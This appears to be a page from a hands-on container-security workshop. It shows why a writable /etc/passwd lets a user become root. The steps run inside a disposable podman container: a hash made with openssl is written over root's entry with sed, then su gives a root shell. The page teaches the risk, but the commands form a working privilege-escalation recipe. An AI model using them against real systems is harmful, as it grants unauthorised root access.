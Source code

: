The reason that it is possible for a user to become `root` when `/etc/passwd` is writable, is that although passwords are now stored in `/etc/shadow`, they were once upon a time stored in `/etc/passwd`. That functionality hasn't actually been disabled in Linux. You can manually add a password hash to `/etc/passwd` and it will still be used for authenticating a user.

To show the consequences of this, start a container with an interactive shell:

```execute
podman run -it --rm greeting bash
```

In the container, make a copy of the `/etc/passwd` file.

```execute
cp /etc/passwd /tmp/passwd
```

Generate a hashed password value, where the value of the password is `secret`.

```execute
HASHED_PASSWORD=`openssl passwd -1 secret`
```

Update the `/etc/passwd` file to set this hashed password as that for the `root` user.

```execute
cat /tmp/passwd | sed "s%root:x%root:${HASHED_PASSWORD}%" > /etc/passwd
```

Having updated the `/etc/passwd` file now execute `su` to become `root`.

```execute
su root
```

You will be prompted for a password, enter:

```execute
secret
```

Verify what user you are by running:

```execute
id
```

The output should be:

```
uid=0(root) gid=0(root) groups=0(root)
```

indicating you are the `root` user inside of the container.

Stop the container by killing it.

```execute-2
podman kill `podman ps -ql`
```

